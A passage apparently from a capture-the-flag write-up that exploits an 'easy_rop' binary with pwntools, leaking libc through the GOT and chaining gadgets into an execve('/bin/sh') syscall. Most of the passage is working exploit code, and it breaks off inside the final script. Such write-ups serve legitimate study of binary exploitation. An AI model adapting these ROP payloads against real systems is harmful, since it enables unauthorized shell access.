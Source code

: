 ```python3
input("Press Enter to send next payload\n")

p.send(b"/bin/sh\x00")
```

So now that we have the base address of libc and the location of the `/bin/sh` string (0x404000), we can do a classic
execve ropchain. I added a simple function that makes calculating the address of each gadget easy based on the libc offset.

```python3
# Converts a libc address to its actual address based on the offset
def address(address):
    return address + lib.address

input("Press Enter to send next payload\n")

third_payload = b"\x90" * 40
third_payload += p64(address(0x0000000000084dff))  # pop rax
third_payload += p64(0x3b)                         # rax value
third_payload += p64(address(0x000000000011903c))  # pop rdi
third_payload += p64(0x404000)                     # rdi value
third_payload += p64(address(0x000000000011a3fd))  # pop rsi
third_payload += p64(0x0)                          # null
third_payload += p64(address(0x0000000000067e22))  # pop rdx
third_payload += p64(0x0)                          # null
third_payload += p64(0x401126)                     # syscall

p.send(third_payload)
```

### Final Exploit

```python3
from pwn import *

exe = context.binary = ELF("./easy_rop")
p = process("./easy_rop")

payload = b"\x90" * 32
payload += p64(0x404020)   # RBP Overwrite: Beginning Address of .data + 0x20
payload += p64(0x40110a)   # execute read syscall
payload += p64(0xdeadbeef) # garbage RBP value
payload += p64(0x40112e)   # Pop RDI Instruction
payload += p64(0x1)        # RDI Value
payload += p64(0xdeadbeef) # Garbage RBP Value
payload += p64(0x401126)   # syscall instruction
payload += p64(0xdeadbeef) # Garbage RBP Value
payload += p64(0x401107)   # read in second rop chain
payload += b"\n"

p.send(payload)

input("Press Enter to send next payload\n")

struct_payload = p64(0x403fc8)   # Address of the .got table
struct_payload += p64(0x8)       # 8 bytes to read
struct_payload += b"\x00" * 4    # Padding to get the total length to 0x14

p.send(struct_payload)

lib = ELF("libc.so.6")
libc_address = int.from_bytes(p.recv(), byteorder="little")
lib.address = libc_address - lib.symbols["__libc_start_main"]

```